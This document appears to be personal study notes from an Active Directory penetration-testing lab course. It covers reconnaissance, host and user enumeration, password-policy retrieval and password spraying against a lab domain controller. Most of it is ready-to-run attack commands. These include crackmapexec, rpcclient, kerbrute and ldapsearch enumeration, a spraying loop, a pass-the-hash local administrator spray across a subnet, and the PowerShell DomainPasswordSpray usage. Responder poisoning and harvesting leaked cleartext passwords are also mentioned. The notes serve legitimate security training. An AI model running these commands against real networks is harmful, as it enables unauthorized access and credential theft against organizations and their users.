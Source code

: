 ## External Recon and Enumeration
- look through BGP-toolkit by Hurricane Electric for IP Space details
- viewdns.info for all DNS realated information
- go through companies social media, website and all the publicly available data
- dork for internal emails, files.
- use linkedin2username for username harvesting
- use dehashed for hunting cleartext passwords

# Initial domain enumeration
- Enumerate the internal network, identifying hosts, critical services, and potential avenues for a foothold.
- This can include active and passive measures to identify users, hosts, and vulnerabilities we may be able to take advantage of to further our access.
- Document any findings we come across for later use. Extremely important!

| Data Point |	Description |
|-----------|------------|
| AD Users	| We are trying to enumerate valid user accounts we can target for password spraying. |
| AD Joined Computers	| Key Computers include Domain Controllers, file servers, SQL servers, web servers, Exchange mail servers, database servers, etc.|
| Key Services	| Kerberos, NetBIOS, LDAP, DNS |
| Vulnerable Hosts and Services	| Anything that can be a quick win. ( a.k.a an easy host to exploit and gain a foothold) |

## Identifying hosts
### wireshark
use wireshark to grather ARP, MDNS and other layer two packets.
*from the scan results we can identify the hosts 172.16.5.130, 172.16.5.225, 172.16.5.5, 172.16.5.25, 172.16.5.240*
*and from NBNS/MDNS protocol we identified the host ACADEMY-EA-WEB0<00> & ACADEMY-EA-WEB0<20>*
**TCPDUMP can also be used for this purpose** 
### Responder
Responder is a tool built to listen, analyze, and poison LLMNR, NBT-NS, and MDNS requests and responses. It has many more functions.
### perform fping on the subnet to identify the live hosts
### nmap -- use it to enumerate all the hosts that we found till now.
## Identifying users
### Kerbrute
Kerbrute can be a stealthier option for domain account enumeration. It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts. We will use Kerbrute in conjunction with the jsmith.txt or jsmith2.txt user lists from Insidetrust. 
## Password spraying
After obtaining the usernames we can try to perform password spraying but for that it'll be easier if we can retrieve the password policy enforced.
This can be done either by SMB NULL session or LDAP Anonymous bind.
If there are know credentials crackmapexec can be used
```
 crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
### rpcclient
```
rpcclient -U "" -N 172.16.5.5
>querydominfo
>getdompwinfo
```
### enum4linux or enum4linux-ng
```
enum4linux -P 172.16.5.5
```
Enum4linux-ng provided us with a bit clearer output and handy JSON and YAML output using the -oA flag.
```
enum4linux-ng -P 172.16.5.5 -oA ilfreight
```
### Enumerating Null Session - from Windows
```
net use \\DC01\ipc$ "" /u:""
```
### linux - LDAP Anonymous bind
With an LDAP anonymous bind, we can use LDAP-specific enumeration tools such as windapsearch.py, ldapsearch, ad-ldapdomaindump.py, etc., to pull the password policy. With ldapsearch, it can be a bit cumbersome but doable.
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
### windows
If we can authenticate to the domain from a Windows host, we can use built-in Windows binaries such as net.exe to retrieve the password policy. We can also use various tools such as PowerView, CrackMapExec ported to Windows, SharpMapExec, SharpView, etc.
```
net accounts
```
```
PS C:\htb> import-module .\PowerView.ps1
PS C:\htb> Get-DomainPolicy
```

## Detailed User Enumeration
- By leveraging an SMB NULL session to retrieve a complete list of domain users from the domain controller
- Utilizing an LDAP anonymous bind to query LDAP anonymously and pull down the domain user list
- Using a tool such as Kerbrute to validate users utilizing a word list from a source such as the statistically-likely-usernames GitHub repo, or gathered by using a tool such as linkedin2username to create a list of potentially valid users
- Using a set of credentials from a Linux or Windows attack system either provided by our client or obtained through another means such as LLMNR/NBT-NS response poisoning using Responder or even a successful password spray using a smaller wordlist
### using enum4linux
```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
### rpcclient
```
rpcclient -U "" -N 172.16.5.5
>enumdomusers
```
### crackmapexec
```
crackmapexec smb 172.16.5.5 --users
```
### ldapsearch
If we choose to use ldapsearch we will need to specify a valid LDAP search filter. We can learn more about these search filters in the Active Directory LDAP module.
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```
### windapsearch
Tools such as windapsearch make this easier (though we should still understand how to create our own LDAP search filters). Here we can specify anonymous access by providing a blank username with the -u flag and the -U flag to tell the tool to retrieve just users.
```
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
### using kerbrute
```
 kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```
## Password spraying
### using rpcclient
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
### using kerbrute
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
### using crackmapexec
```
 sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
 ```
### local admin spraying with crackmapexec
```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
## Internal password spraying from a domain joined windows
### Using DomainPasswordSpray.ps1
```
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```


